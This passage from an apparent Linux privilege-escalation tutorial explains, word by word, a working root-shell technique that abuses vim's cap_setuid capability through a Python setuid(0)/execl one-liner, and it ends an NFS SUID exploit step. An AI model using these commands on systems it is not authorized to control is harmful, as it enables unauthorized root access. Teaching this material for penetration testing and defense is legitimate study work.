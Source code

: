 - `/tmp/exploit`:
  - `/tmp/exploit`: The SUID binary on the target.
  - *Purpose*: Runs the exploit to spawn a root shell.
- `whoami`:
  - *Purpose*: Confirms root access.

**Note**: Requires NFS access and `no_root_squash`. Static compilation (`gcc -static`) may be needed for compatibility.

---

### 7. Capabilities

**Description**: Capabilities grant specific privileges to binaries (e.g., binding to ports). If a binary has excessive capabilities (e.g., `cap_setuid`), it can be exploited to gain root access.

**Example**:
```bash
# List binaries with capabilities
getcap -r / 2>/dev/null
# Output: /usr/bin/vim = cap_setuid+ep

# Exploit vim’s capability
/usr/bin/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
# Spawns root shell
whoami
# Output: root
```

**Word-by-Word Explanation**:
- `getcap -r / 2>/dev/null`:
  - `getcap`: Lists capabilities.
  - `-r`: Recursive search.
  - `/`: Root directory.
  - `2>/dev/null`: Suppresses errors.
  - *Output*: `/usr/bin/vim = cap_setuid+ep` means `vim` can set user IDs (including root).
  - *Purpose*: Identifies exploitable binaries.
- `/usr/bin/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'`:
  - `/usr/bin/vim`: Runs `vim`.
  - `-c`: Executes a command in `vim`.
  - `':py3'`: Runs Python 3 in `vim`.
  - `import os`: Imports the OS module.
  - `os.setuid(0)`: Sets the user ID to root (allowed by `cap_setuid`).
  - `os.execl("/bin/sh", "sh", "-c", "reset; exec sh")`: Replaces the process with a shell.
  - `reset`: Clears the terminal.
  - `exec sh`: Runs a shell.
  - *Purpose*: Uses `vim`’s capability to spawn a root shell.
- `whoami`:
  - *Purpose*: Confirms root access.

**Note**: Check GTFOBins for other binaries with exploitable capabilities.

---
